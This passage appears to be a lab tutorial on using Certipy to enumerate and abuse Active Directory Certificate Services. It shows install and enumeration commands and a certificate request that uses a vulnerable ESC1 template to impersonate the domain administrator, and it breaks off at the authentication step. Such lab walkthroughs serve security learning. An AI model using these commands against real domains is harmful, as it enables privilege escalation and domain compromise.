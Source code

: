 Certipy is an offensive tool for enumerating and abusing Active Directory Certificate Services (AD CS).

### Installation

`pip3 install certipy-ad`

### Basics

This section will only cover the basics you will need for the exploitation of the provided escalation paths.

#### find

The `find` command is what we will use for enumeration. We'll specify the username with `-u`, the password with `-p`, the Domain Controller IP with `-dc-ip`. I've used the `-text` flag so the output will only be saved to a `.txt` file. 

Otherwise the tool also saves the output in JSON format and as a .zip file that can be imported into BloodHound for visualization. We're going to work only with the .txt file in this guide.

`certipy find -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -dc-ip 192.168.91.181 -text`

![](/screenshots/20230724201209.png?raw=true)

Optionally, you could also add the `-vulnerable` flag as well, which will only output templates that are vulnerable.

#### req

The `req` command is used for requesting, retrieving, and renewing certificates.

`certipy req -u s.jackson@certipied.local -p 'Pr3-0wn3d!#.' -ca Certipied-CA -template Vuln-ESC1 -upn administrator@certipied.local -dc-ip 192.168.91.159`

Here we are also specifying the Certificate Authority with `-ca`, the name of the template we are abusing with `-template`, the User Principal Name with `-upn`.

In general, this will generate a certificate file with the `.pfx` extension that we can then use to authenticate.

#### auth
